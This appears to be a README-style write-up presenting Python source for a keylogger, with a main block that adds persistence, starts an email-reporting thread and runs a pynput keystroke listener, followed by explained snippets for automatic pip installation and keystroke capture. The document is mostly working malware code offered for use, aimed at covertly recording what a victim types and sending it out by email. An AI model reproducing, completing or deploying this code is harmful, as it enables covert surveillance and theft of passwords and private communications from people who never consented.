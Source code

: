 ```python
# Run keylogger
def start_keylogger():
    with Listener(on_press=on_press) as listener:
        listener.join()

# Run keylogger and persistence in separate threads
if __name__ == "__main__":
    add_persistence()
    
    # Start email reporting in a separate thread
    report_thread = threading.Thread(target=report)
    report_thread.start()
    
    # Start the keylogger
    start_keylogger()
```

---

## Explanation of Key Components

### 1. **Automatic Dependency Installation**

The `install_module()` function checks if the required modules are installed. If not, it installs them automatically using `pip`.

```python
def install_module(module_name):
    try:
        __import__(module_name)
    except ImportError:
        print(f"[*] Installing {module_name} module...")
        subprocess.check_call([sys.executable, "-m", "pip", "install", module_name])
```

### 2. **Keystroke Capture**

Using `pynput`, the keylogger captures each keystroke and stores it in a `log` variable.

```python
def on_press(key):
    global log
    try:
        log += str(key.char)
    except AttributeError:
        if key == key.space:
            log += " "
        elif key == key.enter:
            log += "\n"
        else:
            log += f" [{str(key)}] "
```
